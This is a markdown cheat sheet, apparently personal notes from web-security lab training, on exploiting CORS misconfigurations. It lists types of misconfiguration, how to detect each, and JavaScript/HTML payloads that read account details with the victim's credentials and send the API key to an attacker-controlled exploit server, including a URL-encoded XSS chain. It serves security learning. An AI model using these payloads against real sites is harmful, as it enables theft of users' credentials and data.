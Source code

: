 # CORS

## Types:

1. Server-generated ACAO header from client-specified Origin header
2. Errors parsing Origin headers
3. Whitelisted null origin value
4. Exploiting XSS via CORS trust relationships
5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials 
---

## How to find each type:

1. Server-generated ACAO header from client-specified Origin header
- Attempt to use a random origin in the `Origin` header.
- See if the origin is reflected in the  `Access-Allow-Control-Origin` header.
2. Errors parsing Origin headers
- See if you can use subdomains or domains that end with the whitelisted domain.
3. Whitelisted null origin value
- Put `null` in the origin header and see if it is reflected.
4. Exploiting XSS via CORS trust relationships
- Check to see if subdomains are allowed in the `Access-Allow-Control-Origin` header.
- If they are, see if there is XSS on these domains.
5. Breaking TLS with poorly configured CORS
-
6. Intranets and CORS without credentials 
-
---

## How to exploit each type:

1. Server-generated ACAO header from client-specified Origin header
```js
<script>
  function getadmin() {
      var res = JSON.parse(this.response)
      fetch("https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?" + res.apikey);
  }
  
  const request = new XMLHttpRequest();
  request.addEventListener("load", getadmin);
  request.open("GET", "https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails", true);
  request.withCredentials = true;
  request.send();
</script>
```
2. Errors parsing Origin headers
- If `normal-website.com` is ok then try `hackersnormal-website.com`.
3. Whitelisted null origin value
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var res = JSON.parse(this.response)
location = 'https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?' + res.apikey;
};
</script>"></iframe>
```
4. Exploiting XSS via CORS trust relationships
- Use XSS with the first CORS exploit:
  ```html
  <script>
    location="http://subdomain/?param=<%3Cscript%3Evar+req+%3D+new+XMLHttpRequest%28%29%3B+req.onload+%3D+reqListener%3B+req.open%28%27get%27%2C%27https%3A%2F%2F0a7f000b04d942c38151111c002900a6.web-security-academy.net%2FaccountDetails%27%2Ctrue%29%3B+req.withCredentials+%3D+true%3Breq.send%28%29%3Bfunction+reqListener%28%29+%7Bvar+res+%3D+JSON.parse%28this.response%29%3B+location%3D%27https%3A%2F%2Fexploit-0a350083041a4269817d1092013b00eb.exploit-server.net%2FaccountDetails%3Fkey%3D%27%2Bres.apikey%3B%7D%3B%3C%2Fscript%3E"
  </script>

  hackvertor to urlencode
  <@urlencode><script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a7f000b04d942c38151111c002900a6.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {var res = JSON.parse(this.response); location='https://exploit-0a350083041a4269817d1092013b00eb.exploit-server.net/accountDetails?key='+res.apikey;};</script><@/urlencode>
  
  Result:
  %3Cscript%3Evar+req+%3D+new+XMLHttpRequest%28%29%3B+req.onload+%3D+reqListener%3B+req.open%28%27get%27%2C%27https%3A%2F%2F0a7f000b04d942c38151111c002900a6.web-security-academy.net%2FaccountDetails%27%2Ctrue%29%3B+req.withCredentials+%3D+true%3Breq.send%28%29%3Bfunction+reqListener%28%29+%7Bvar+res+%3D+JSON.parse%28this.response%29%3B+location%3D%27https%3A%2F%2Fexploit-0a350083041a4269817d1092013b00eb.exploit-server.net%2FaccountDetails%3Fkey%3D%27%2Bres.apikey%3B%7D%3B%3C%2Fscript%3E
  ```
5. Breaking TLS with poorly configured CORS
- This attack involves the following steps:
  - The victim user makes any plain HTTP request.
  - The attacker injects a redirection to: `http://trusted-subdomain.vulnerable-website.com`
  - The victim's browser follows the redirect.
  - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: `https://vulnerable-website.com`
  - The victim's browser makes the CORS request, including the origin: `http://trusted-subdomain.vulnerable-website.com`
  - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
  - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
6. Intranets and CORS without credentials 
-
---

## Other important notes:
- Look for the `Access-Allow-Control-Origin` header.
